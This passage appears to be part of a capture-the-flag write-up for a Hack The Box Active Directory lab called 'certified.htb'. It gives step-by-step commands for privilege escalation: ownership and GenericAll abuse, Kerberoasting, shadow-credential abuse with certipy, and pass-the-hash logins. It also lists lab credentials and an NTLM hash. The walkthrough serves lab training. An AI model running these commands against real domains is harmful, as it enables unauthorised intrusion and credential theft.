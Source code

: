 
## Privilege Escalation

- **Attempt Remote PowerShell Access**
    ```
    evil-winrm -i certified.htb -u judith.mader -p judith09
    ```
    - Judith lacks access. Bloodhound reveals `WriteOwner` and escalation via groups.

- **Overwrite Ownership and Escalate**
    ```
    python owneredit.py -action write -new-owner 'judith.mader' -target 'management' certified.htb/judith.mader:'judith09'
    OR
    bloodyAD --host dc01.certified.htb -d certified.htb -u 'judith.mader' -p 'judith09' set owner Management judith.mader
    bloodyAD --host DC01.certified.htb -d certified.htb -u 'judith.mader' -p 'judith09' add genericAll Management judith.mader
    ```
- **Group Management via SMB**
    ```
    net rpc group addmem management judith.mader -U certified.htb/"judith.mader"%"judith09" -S dc01.certified.htb
    net rpc group members management -U certified.htb/"judith.mader"%"judith09" -S dc01.certified.htb
    ```
- **Time Synchronization**
    ```
    sudo ntpdate -u 10.129.231.186
    ```

- **Kerberoasting**
    ```
    impacket-GetUserSPNs -request -spn management_svc/certified.htb -dc-ip 10.129.231.186 certified.htb/judith.mader:judith09
    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    ```
    - Hash Cracking not working. Also tried hashcat but not working. 

---

## Kerberos and Certificate Abuse

- **Abuse msDS-KeyCredentialLink**
    ```
    certipy shadow auto -u 'judith.mader@certified.htb' -p 'judith09' -account 'MANAGEMENT_SVC' -dc-ip 10.129.94.37
    ```
    - Get NTLM hash from GenericWrite: a091c1832bcdd4677c28b5a6a1295584.

- **Authenticate as MANAGEMENT_SVC**
    ```
    evil-winrm -i certified.htb -u MANAGEMENT_SVC -H a091c1832bcdd4677c28b5a6a1295584
    ```
- **Overpass-the-Hash: Create Kerberos Ticket**
    ```
    impacket-getTGT -dc-ip 10.129.94.37 -hashes 00000000000000000000000000000000:a091c1832bcdd4677c28b5a6a1295584 CERTIFIED/MANAGEMENT_SVC
    export KRB5CCNAME=./MANAGEMENT_SVC.ccache
    ```

---